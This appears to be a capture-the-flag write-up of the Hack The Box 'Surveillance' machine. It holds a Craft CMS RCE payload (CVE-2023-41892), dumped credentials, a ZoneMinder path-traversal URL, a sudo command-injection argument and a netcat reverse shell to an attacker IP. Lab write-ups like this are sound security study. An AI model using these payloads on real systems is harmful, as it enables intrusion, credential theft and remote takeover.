# Surveillance

## Machine Info



## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (95%), Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 80 http
- whatweb

```bash
$ whatweb http://surveillance.htb/
http://surveillance.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.245], JQuery[3.4.1], Script[text/javascript], Title[Surveillance], X-Powered-By[Craft CMS], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

- Craft CMS 4.4.14, login page: http://surveillance.htb/admin/login
- https://github.com/craftcms/cms/tree/4.4.14





## Foothold

### CraftCMS RCE

**CVE-2023-41892 Reference**

- [CVE-2023-41892 (Craft CMS Remote Code Execution) - POC (github.com)](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)
- \[ ! \] [CraftCMS RCE - by Thanh - Calif](https://blog.calif.io/p/craftcms-rce)

**POC:**

```
action=conditions/render&configObject[class]=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}
```



**EXP:** use this CVE to get a user shell: [CVE-2023-41892 (Craft CMS Remote Code Execution) - POC - HTB (github.com)](https://gist.github.com/zhsh9/ae0d6093640aa5c82c534ebee80fa1df)



## Privilege Escalation

Users in this machie:

- root
- matthew
- zoneminder

```bash
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
```

### www-data



- cred: **craftuser:CraftCMSPassword2023!**



- `select Username,Password from Users;`

```
|  1 |    NULL |      1 |       0 |      0 |         0 |     1 | admin    | Matthew B | Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe | 2023-10-17 20:42:03 | NULL               | 2023-12-10 15:36:36     |                 1 | 2023-12-10 15:36:36  | NULL        |            1 | $2y$13$r7Bxvu689BdmpiCmw9Pwq.KlH5egSN3jdH/wkKSmyIHNZaUmhxG8G | 2023-12-10 15:35:18        | NULL            |                     0 | 2023-10-17 20:38:29    | 2023-10-11 17:57:16 | 2023-12-10 15:36:36 |
```

- `$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe` -> crack [x]
- zoneminder user, database config -> cred: **zmuser:ZoneMinderPassword2023**





- deal with db as zmuser -> find zm db's cred



```
MariaDB [zm]> describe Users;
describe Users;
+----------------+----------------------------+------+-----+---------+----------------+
| Field          | Type                       | Null | Key | Default | Extra          |
+----------------+----------------------------+------+-----+---------+----------------+
| Id             | int(10) unsigned           | NO   | PRI | NULL    | auto_increment |
| Username       | varchar(32)                | NO   | UNI |         |                |
| Password       | varchar(64)                | NO   |     |         |                |
| Language       | varchar(8)                 | YES  |     | NULL    |                |
| Enabled        | tinyint(3) unsigned        | NO   |     | 1       |                |
| Stream         | enum('None','View')        | NO   |     | None    |                |
| Events         | enum('None','View','Edit') | NO   |     | None    |                |
| Control        | enum('None','View','Edit') | NO   |     | None    |                |
| Monitors       | enum('None','View','Edit') | NO   |     | None    |                |
| Groups         | enum('None','View','Edit') | NO   |     | None    |                |
| Devices        | enum('None','View','Edit') | NO   |     | None    |                |
| Snapshots      | enum('None','View','Edit') | NO   |     | None    |                |
| System         | enum('None','View','Edit') | NO   |     | None    |                |
| MaxBandwidth   | varchar(16)                | YES  |     | NULL    |                |
| MonitorIds     | text                       | YES  |     | NULL    |                |
| TokenMinExpiry | bigint(20) unsigned        | NO   |     | 0       |                |
| APIEnabled     | tinyint(3) unsigned        | NO   |     | 1       |                |
| HomeView       | varchar(64)                | NO   |     |         |                |
+----------------+----------------------------+------+-----+---------+----------------+
18 rows in set (0.001 sec)

MariaDB [zm]> select Username,Password from Users;
select Username,Password from Users;
+----------+--------------------------------------------------------------+
| Username | Password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd. |
+----------+--------------------------------------------------------------+
1 row in set (0.001 sec)
```

- `$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.` -> crack [x]

- zoneminder version: **1.36.32**

```bash
www-data@surveillance:/tmp$ dpkg -s zoneminder | grep Version
dpkg -s zoneminder | grep Version
Version: 1.36.32+dfsg1-1
```

- Port **8080** -> **zoneminder** 





- **backup finding**: /html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip -> unzip



- `39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec` -> **matthew:starcraft122490**



### port forwarding

- tool: **chisel**



- http://localhost:9090/



### matthew

- ssh conn as matthew



### zoneminder

#### method2 of login

- check encryption method of admin's hash -> bcrypt encrypt



- encrypt password `qwe` -> `$2a$12$bmSCINqOjkGYFBxjpiziKO9DoU/FJuFCc7KMPx61/QtFCBjjLazZ.`

- `update Users set Password="$2a$12$bmSCINqOjkGYFBxjpiziKO9DoU/FJuFCc7KMPx61/QtFCBjjLazZ." where Username="admin";`



- login as admin



#### method2 of login

- add a new user: `INSERT INTO Users (Username, Password, Language, Enabled, Stream, Events, Control, Monitors, Groups, Devices, Snapshots, System, MaxBandwidth, MonitorIds, TokenMinExpiry, APIEnabled, HomeView) VALUES ('admin0', '$2a$12$bmSCINqOjkGYFBxjpiziKO9DoU/FJuFCc7KMPx61/QtFCBjjLazZ.', '', 1, 'View', 'Edit', 'Edit', 'Edit', 'Edit', 'Edit', 'Edit', 'Edit', '', '', 0, 1, '');`



- login as admin0

### CVE-2023-2636

ZoneMinder is a free, open-source CCTV software application for Linux that supports IP, USB, and analog cameras. Versions prior to 1.36.33 and 1.37.33 contain a local file inclusion vulnerability (untrusted search path) via /web/index.php. By controlling the `$view` variable, it is possible to execute any local file ending with .php. This should be mitigated by calling `detaintPath`, but `detaintPath` did not properly sandbox the paths. This can be exploited by constructing paths like `..././`, which get replaced by `../`. This issue has been patched in versions 1.36.33 and 1.37.33.

- [Local File Inclusion vulnerability · Advisory · ZoneMinder/zoneminder (github.com)](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-h5m9-6jjc-cgmw)
- curl down rshell.php (reverse shell file) -> /tmp
- visit: `http://localhost:9090/index.php?view=..././..././..././..././..././..././..././..././..././..././..././tmp/rshell`



### zoneminder -> root

- `sudo -l`





- [Ubuntu Manpage: zoneminder - ZoneMinder Documentation](https://manpages.ubuntu.com/manpages/focal/man1/zoneminder.1.html)
- code audit **zmupdate.pl**

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/a.sh)' --pass=ZoneMinderPassword2023
```

```bash
#!/usr/bin/bash
busybox nc 10.10.14.15 12345 -e bash
```



## Exploit Chain

CraftCMS RCE -> www-data user priv -> 2 db creds -> unzip backups -> matthew ssh -> chisel port forwarding 8080 -> add user into zm db -> LFI execute php reverse shell -> zoneminder user priv -> sudo -l -> code audit -> sudo perl script priv esca -> root rev shell
